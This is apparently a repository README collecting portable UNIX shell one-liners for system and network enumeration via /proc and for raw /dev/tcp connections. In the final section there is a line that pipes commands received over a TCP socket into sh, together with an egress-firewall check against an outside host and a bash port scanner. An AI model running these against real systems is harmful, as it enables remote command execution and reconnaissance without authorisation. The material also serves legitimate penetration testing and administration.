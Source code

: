# lcdbins

An **lcdbin** is a lowest-common denominator binary or script; a platform-agnostic oneliner that should work on almost any UNIX environment using universal built-in tools. The liners documented here should work on any UNIX environment, except where otherwise specified. Some liners may not work on environments that are missing standard utilities such as bc.

Greetz to moogz for assistance and contributions.

## Universal Oneliners

Get all IP addresses in /etc/

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```

## /proc - system enumeration

Get kernel version information

```shell
cat /proc/version
cat /proc/sys/kernel/version
```

Get hostname

```shell
cat /proc/sys/kernel/hostname
```

Get current uid and gid

```shell
uid=$(cat /proc/self/status | grep -i '^uid:' | awk -F '[ \t]' '{print $2}'); gid=$(cat /proc/self/status | grep -i '^gid:' | awk -F '[ \t]' '{print $2}'); echo uid $uid gid $gid
```

List information about processes

```
echo PID NAME UID GID; pids=$(ls /proc | grep '^[0-9]*$'); for pid in $pids; do name=$(cat /proc/$pid/status 2> /dev/null | grep -i '^name' | awk -F '[ \t]' '{print $2}'); uid=$(cat /proc/$pid/status 2> /dev/null | grep -i '^uid:' | awk -F '[ \t]' '{print $2}'); gid=$(cat /proc/$pid/status 2> /dev/null | grep -i '^gid:' | awk -F '[ \t]' '{print $2}'); echo $pid $name $uid $gid; done;
```

## /proc/net - network enumeration

Parse listening ports on /proc/net/tcp

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse destination and gateway from /proc/net/route

```shell
echo Interface Destination Gateway; awk "NR >= 2" /proc/net/route |while read line; do printf '%s %d.%d.%d.%d %d.%d.%d.%d\n' $(echo $line | awk -F ' ' '{print $1}') $(echo $line | awk -F ' ' '{print $2}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }') $(echo $line | awk -F ' ' '{print $3}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }'); done
```

Print the ARP table

```shell
cat /proc/net/arp
```

## /dev/tcp - making connections (requires bash)

Connect to a port and execute the command received

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```
